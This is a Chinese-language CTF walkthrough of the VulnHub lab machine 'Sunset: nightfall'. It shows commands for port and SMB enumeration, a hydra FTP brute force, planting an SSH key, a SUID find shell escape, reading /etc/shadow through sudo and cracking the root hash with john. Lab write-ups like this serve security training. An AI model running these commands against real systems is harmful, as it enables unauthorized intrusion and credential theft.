# Sunset:nightfall

## 环境

虚拟机平台：Oracle VM VirtualBox

攻击机：Kali（IP：192.168.56.102）

靶机：nightfall（IP：192.168.56.104）

下载：https://www.vulnhub.com/entry/sunset-nightfall,355/

## Let's go

```
nmap -A 192.168.56.104
```



```
dirb http://192.168.56.104/
```



> **并没有发现什么，我们对SMB进行枚举**

```
enum4linux -a 192.168.56.104
```



> **得到两个用户 ‘nightfall’ 和 ‘matt’ ，接下来我们进行暴力破解**

```
hydra -L user.txt -P /usr/share/wordlists/rockyou.txt -e nsr 192.168.56.104 ftp -f
```



```
#尝试SSH登录失败,老老实实登录FTP
ftp 192.168.56.104
username:matt
password:cheese
```



```
#我们通过FTP将SSH密钥上传
ssh-keygen
cp .ssh/id_rsa.pub authorized_keys
chmod 777 authorized_keys
```



```
mkdir .ssh
cd .ssh
put authorized_keys
```



```
ssh matt@192.168.56.104
```



```
find / -perm -u=s -type f 2>/dev/null
```



```
cd /scripts
./find . -exec /bin/sh -p \;
```



> **这是一个受限的shell，因此我们要想办法**

```
cd /home/nightfall
mkdir .ssh
cd .ssh
wget http://192.168.56.102/authorized_keys
```



```
ssh nightfall@192.168.56.104
```



```
sudo -l
```



```
sudo cat /etc/shadow
```



```
vim root		#将哈希写入root
john root
```



```
su root
password:miguel2
cd
cat root_super_secret_flag.txt
```

